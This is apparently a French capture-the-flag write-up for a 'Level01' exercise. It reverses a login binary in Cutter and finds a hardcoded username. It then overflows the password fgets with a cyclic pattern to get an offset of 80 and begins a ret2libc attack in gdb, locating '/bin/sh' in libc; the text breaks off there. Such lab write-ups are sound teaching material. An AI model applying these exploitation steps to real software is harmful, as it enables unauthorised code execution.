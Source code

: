 **

## Level01

Lorsqu’on lance le programme, celui-ci nous demande un login.

  

On ouvre le programme sur cutter, on trouve que  verify_user_name(); est appelée.

  

On cherche donc dans cette fonction et on trouve une string : “dat_wil”. On essaie alors d’entrer cette string en tant qu’username et cela nous permet d’accéder au champ password.

  

On voit dans cutter une string “admin” qui est comparée. On essaie alors d’entrer “admin” en password, mais ça ne fonctionne pas.

  

Essayons de buffer overflow le fgets du password :

  

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

0x37634136 nous donne un offset de 80.

Le problème c’est qu’on ne voit pas de /bin/sh dans le programme. On va donc essayer de la trouver avec une ret2libc attack.

    (gdb) b *main+173
    Breakpoint 1 at 0x804857d
    
    (gdb) info proc map
    process 1857
    Mapped address spaces:
    Start Addr End Addr Size Offset objfile
    0x8048000 0x8049000 0x1000 0x0 /home/users/level01/level01
    0x8049000 0x804a000 0x1000 0x0 /home/users/level01/level01
    0x804a000 0x804b000 0x1000 0x1000 /home/users/level01/level01
    0xf7e2b000 0xf7e2c000 0x1000 0x0
    0xf7e2c000 0xf7fcc000 0x1a0000 0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000 0x1000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000 0x2000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000 0x1000 0x1a2000 /lib32/libc-2.15.so
    0xf7fd0000 0xf7fd4000 0x4000 0x0
    0xf7fd8000 0xf7fdb000 0x3000 0x0
    0xf7fdb000 0xf7fdc000 0x1000 0x0 [vdso]
    0xf7fdc000 0xf7ffc000  0x20000 0x0 /lib32/ld-2.15.so
    0xf7ffc000 0xf7ffd000 0x1000  0x1f000 /lib32/ld-2.15.so
    0xf7ffd000 0xf7ffe000 0x1000  0x20000 /lib32/ld-2.15.so
    0xfffdd000 0xffffe000  0x21000 0x0 [stack]

    (gdb) find 0xf7e2b000,0xf7ffdd00,"bin/sh"
    (gdb) 0xf7f897ed
		1 pattern found.
    (gdb) info function system

